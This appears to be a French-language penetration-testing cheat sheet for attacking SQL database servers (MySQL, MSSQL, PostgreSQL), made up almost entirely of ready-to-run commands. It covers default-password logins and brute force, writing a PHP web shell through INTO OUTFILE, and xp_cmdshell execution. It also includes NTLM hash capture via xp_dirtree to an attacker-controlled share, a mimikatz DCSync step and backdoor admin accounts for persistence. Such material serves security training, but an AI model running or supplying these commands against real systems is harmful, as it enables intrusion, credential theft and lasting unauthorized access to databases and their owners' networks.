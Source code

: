 # SQL Databases (1433,3306/TCP)

Les bases de données SQL (MySQL, MSSQL, PostgreSQL) stockent et gèrent les données structurées.
## 🔍 Énumération
### Scan de base
```bash
# MySQL (3306)
sudo nmap -sV -p 3306 $IP
nmap --script=mysql-* -p 3306 $IP

# MSSQL (1433)
sudo nmap -sV -p 1433 $IP
nmap --script=ms-sql-* -p 1433 $IP

# PostgreSQL (5432)
sudo nmap -sV -p 5432 $IP
nmap --script=pgsql-* -p 5432 $IP
```
### Banner grabbing
```bash
# MySQL
nc -vn $IP 3306

# MSSQL
nc -vn $IP 1433
```
## 🔨 Exploitation
### Authentification par défaut/faible
```bash
# MySQL
mysql -h $IP -u root
mysql -h $IP -u root -p
# Essayer: root, mysql, '', password, root@123

# MSSQL
sqsh -S $IP -U sa -P ''
# Essayer: sa, '', sa123, password

# PostgreSQL
psql -h $IP -U postgres
# Essayer: postgres, '', admin, postgresql
```

### Attaque par bruteforce
```bash
# MySQL avec Hydra
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql

# MSSQL avec Metasploit
use auxiliary/scanner/mssql/mssql_login
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Exécution de commandes
```bash
# MySQL - Écriture de fichier (si FILE priv)
mysql -h $IP -u root -p -e "SELECT '<?php system(\$_GET[\"cmd\"]);?>' INTO OUTFILE '/var/www/html/shell.php'"

# MSSQL - Exécution de commandes
# Nécessite des privilèges sysadmin
sqsh -S $IP -U sa -P 'password'
1> EXEC master..xp_cmdshell 'whoami'
2> GO

# Capture de hachage NTLM via MSSQL
sqsh -S $IP -U sa -P 'password'
1> EXEC master..xp_dirtree '\\[VOTRE_IP]\share'
2> GO
```

### Extraction de données sensibles
```bash
# MySQL - Lister les bases et données
mysql -h $IP -u root -p -e "SHOW DATABASES"
mysql -h $IP -u root -p -e "USE mysql; SHOW TABLES"
mysql -h $IP -u root -p -e "SELECT User, Password FROM mysql.user"

# MSSQL - Extraire les informations sensibles
use auxiliary/admin/mssql/mssql_enum
set RHOSTS $IP
set USERNAME sa
set PASSWORD password
run
```

### Exploitation des serveurs liés (MSSQL)
```bash
# Énumérer les serveurs liés
1> SELECT srvname FROM master..sysservers
2> GO

# Exécuter des commandes via un serveur lié
1> EXECUTE('SELECT 1') AT [LINKED_SERVER]
2> GO

# Extraction de données à travers le lien
1> EXECUTE('SELECT name FROM master..sysdatabases') AT [LINKED_SERVER]
2> GO
```

## 🔐 Post-exploitation

### Impersonation (MSSQL)
```bash
# Identifier les utilisateurs pouvant être impersonnés
1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
2> GO

# Impersonner un utilisateur (ex: sa)
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### DCSync via MSSQL (si privilèges de domaine)
```bash
# Vérifier si l'utilisateur SQL a des privilèges de domaine
1> EXEC master..xp_cmdshell 'whoami /priv'
2> GO

# Exécuter mimikatz pour DCSync via MSSQL
1> EXEC master..xp_cmdshell 'powershell.exe -enc [ENCODED_COMMAND]'
2> GO
```

### Persistance
```bash
# MySQL - Créer un nouvel utilisateur admin
mysql -h $IP -u root -p -e "CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION"

# MSSQL - Créer un utilisateur et ajouter aux sysadmin
1> CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd!'
2> EXEC master..sp_addsrvrolemember 'hacker', 'sysadmin'
3> GO
```

## ⚠️ Erreurs courantes & astuces
- MySQL est sensible à la casse pour les noms de tables sous Linux
- Les commandes xp_cmdshell sont souvent désactivées par défaut dans MSSQL
- L'authentification MSSQL peut être configurée pour Windows Auth uniquement
- Utilisez `WITH RESULT SETS` en MSSQL pour formater les résultats d'exécution
- Vérifiez les privilèges avec `SHOW GRANTS` (MySQL) ou `IS_SRVROLEMEMBER` (MSSQL)